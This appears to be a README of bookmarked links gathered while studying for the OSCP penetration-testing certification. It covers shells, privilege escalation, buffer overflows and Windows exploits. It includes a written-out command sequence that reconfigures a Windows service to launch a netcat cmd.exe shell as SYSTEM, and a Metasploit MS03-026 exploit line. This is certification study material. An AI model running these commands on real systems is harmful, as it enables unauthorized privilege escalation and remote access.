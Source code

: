 # OSCP
** This repo consists of important links (or URLs) which were bookmarked during my journey of OSCP Certification **

!! Note !!

** Most of my links were SPOLIERS :P !!!**
                                            

#Reverse and Bind Shell tutorials

https://null-byte.wonderhowto.com/how-to/create-reverse-shell-remotely-execute-root-commands-over-any-open-port-using-netcat-bash-0132658/

http://www.hackingtutorials.org/networking/hacking-netcat-part-2-bind-reverse-shells/

# Different Types of Shells (Like Php, bash, netcat ....)

https://highon.coffee/blog/reverse-shell-cheat-sheet/

# Privilege Escalation 

http://www.fuzzysecurity.com/tutorials/16.html

  sc qc upnphost
  sc config upnphost binpath= "C:\nc.exe -nv 127.0.0.1 9988 -e C:\WINDOWS\System32\cmd.exe"
  sc config upnphost obj= ".\LocalSystem" password= ""
  sc qc upnphost
  net start upnphost
  
https://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation/ 
 
#Buffer Overflow 

 #For Practicing
http://www.primalsecurity.net/0x0-exploit-tutorial-buffer-overflow-vanilla-eip-overwrite-2/

# MD5 Decrypter 
https://hashkiller.co.uk/md5-decrypter.aspx

# Port 135
https://null-byte.wonderhowto.com/how-to/hack-like-pro-exploit-and-gain-remote-access-pcs-running-windows-xp-0134709/
  
  > use exploit/windows/dcerpc/ms03_026_dcom
